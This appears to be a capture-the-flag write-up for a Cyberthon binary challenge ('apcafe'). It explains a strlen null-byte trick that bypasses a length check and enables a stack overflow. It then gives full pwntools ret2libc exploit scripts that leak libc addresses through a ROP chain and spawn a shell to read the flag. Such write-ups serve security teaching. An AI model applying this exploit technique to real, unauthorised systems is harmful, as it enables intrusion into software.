

> We've received intel that APOCALYPSE is running a cafe as a front for their illegal activities. Although it seems like a regular cafe on the outside, serving local favourites such as Kopi-O, Milo, and Yuan Yang, we believe that something more sinister is going on. Could u try to find a way to break in so we can investigate further?
>
> Interact with the service at: aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg:30101
>
> Note: once you get a shell, the flag.txt can be found in the user's home directory.
>
> Attached : [apcafe.zip](attachments/apcafe.zip)

## Overview
---

Decompiling the binary in IDA, we get a pretty clean code

```c
main{

  char v4[10]; // [rsp+6h] [rbp-Ah] BYREF

  setup_IO(argc, argv, envp);
  banner();
  printf("What do you want to order? ");
  __isoc99_scanf("%s", v4);
  serve_order(v4);
  return 0;

}

serve_order{
  if ( strlen(v4) > 0xA )
{
  puts(s);
  puts("Huh? What kind of weird order is this? Please leave.\n");
  exit(0);
}
for ( i = 0; i <= 4; ++i )
{
  if ( !strcmp(v4, &DRINKS[10 * i]) )
  {
    puts(s);
    puts("*****************************");
    printf(" Here is your %s!\n", &DRINKS[10 * i]);
    puts("*****************************");
    puts("ASCII ART HERE")
    return puts("Bye! Hope to see you again!");
  }
}
puts(s);
return printf("Sorry, we don't sell %s...\n", v4);
}
```
As you can see the program is rather straightforward.

1. It takes in an input string into _v4_, whereby _v4_ is then called as an argument to `serve_order()`.
2. The length of the v4 string is then compared with **0xA**. If `strlen(v4) > 0xA`, the program exits immediately.
3. Else, the program uses an **if** operator, and has 2 outcomes. Both of which returns to main().


## Exploitation Ideas
---

The length of our input is not limited by scanf, however if we write more than **0xA** characters, we will fail and exit. If we exit, there is **no room for exploitation**.

This is where strlen function comes in:

> The C library function size_t strlen(const char *str) computes the length of the string str up to, but not including the terminating null character.

Since strlen only counts up to a terminating null character, we can artificially put in a terminating null character.

Now that we have control over our return pointer, how could we exploit this program? A simple ret2libc should suffice.

The logic of the exploit will go like this.

1. We overflow the buffer and reach the return address,
2. With the return address, we leak libc and loop back to the program
3. With our LIBC leak, we can find the libc on the remote server
4. With the LIBC on the remote server, we can calculate the address of **system()**.
5. Return to LIBC system('/bin/sh\x00')


## Exploitation
---

We first leak ourself a LIBC by overflowing the buffer and overwriting the return address, to **puts()** GOT and leak LIBC address.

```py
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30101)  # connect to remote service
context.binary = elf = ELF('apcafe')                          # provide the context to our pwntools
#libc = ??

payload = b'water\x00'                                        # put any string with a valid size
payload += b"A" * (0x12 - len(payload))                       # pad up to 10+8 chracters to reach the return address

rop = ROP(elf)                                                # set up our rop chain
rop.puts(elf.got.puts)                                        # leak puts GOT
rop.puts(elf.got.printf)                                      # leak printf GOT
p.sendline(payload + rop.chain())

p.recvuntil(b'Sorry, we don't sell water...')
p.recvline()
puts = hex(u64(p.recvline().rstrip(b'\n').ljust(8, b'\x00')))   # puts leak
printf = hex(u64(p.recvline().rstrip(b'\n').ljust(8, b'\x00'))) # printf leak

#: OUTPUT
#: 0x7fb9231935a0
#: 0x7fb923170e10
```

With our leaks, we can easily find the remote LIBC with [libc-databse](https://github.com/niklasb/libc-database) or [libc blukat](https://libc.blukat.me/?q=puts%3A0x7fb9231935a0%2Cprintf%3A0x7fb923170e10).



We are easily able to narrow down the remote LIBC to 3 c libraries, from experience, all 3 are almost identical which makes almost all of them usable. _not always true_

With the leak, we are able to finish our code and get the flag.


```py
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30101)  # connect to remote service
context.binary = elf = ELF('apcafe')                          # provide the context to our pwntools
libc = ELF('libc6_2.31-0ubuntu9_amd64.so')

payload = b'water\x00'                                        # put any string with a valid size
payload += b"A" * (0x12 - len(payload))                       # pad up to 10+8 chracters to reach the return address

rop = ROP(elf)                                                # set up our rop chain
rop.call(rop.ret[0])                                          # stack alignment
rop.puts(elf.got.puts)                                        # leak puts GOT
rop.puts(elf.got.printf)                                      # leak printf GOT
rop.main()
p.sendline(payload + rop.chain())

p.recvuntil(b"Sorry, we don't sell water...")
p.recvline()
puts = u64(p.recvline().rstrip(b'\n').ljust(8, b'\x00'))        # puts leak
printf = u64(p.recvline().rstrip(b'\n').ljust(8, b'\x00'))     # printf leak

libc.address = puts - libc.sym.puts

binsh = (next(libc.search(b'/bin/sh')))
rop = ROP([libc, elf])
rop.call(rop.ret[0])                                          # align the stack
rop.system(binsh)                                             # call system('/bin/sh')
p.sendline(payload + rop.chain())

p.clean()
p.sendline('cat */*/flag*')
print(p.recvall())
```


**Cyberthon{th4t5_4_r34lly_l000ng_0rd3r_dud3_pl5_ch1ll}**
